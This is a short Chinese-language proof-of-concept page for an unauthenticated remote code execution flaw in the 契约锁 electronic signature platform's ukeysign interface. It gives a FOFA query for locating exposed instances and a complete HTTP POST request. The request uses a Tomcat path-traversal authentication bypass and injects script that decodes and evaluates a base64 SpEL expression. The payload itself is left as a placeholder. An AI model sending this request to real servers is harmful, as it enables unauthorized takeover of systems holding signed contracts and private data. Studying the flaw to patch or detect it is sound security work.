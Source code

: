 # 契约锁电子签章平台ukeysign存在远程命令执行漏洞

契约锁电子签章平台 `/contract/ukeysign/.%2e/.%2e/template/param/edits `接口处存在远程代码执行漏洞，未经身份验证的攻击者可通过tomcat对路径参数解析不正当的特性绕过权限认证在目标执行恶意代码，获取服务器权限。经过分析和研判，该漏洞利用难度低，可导致远程代码执行，建议尽快修复。

## fofa

```java
app="契约锁-电子签署平台"
```

## poc

```java
POST /contract/ukeysign/.%2e/.%2e/template/param/edits HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like 
Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: application/json

{"id":"2","params":[{"expression":"var a=new 
org.springframework.expression.spel.standard.SpelExpressionParser();var b='SpEL 表达式的 base64 编
码';var b64=java.util.Base64.getDecoder();var deStr=new java.lang.String(b64.decode(b),'UTF-
8');var c=a.parseExpression(deStr);c.getValue();"}]}
```

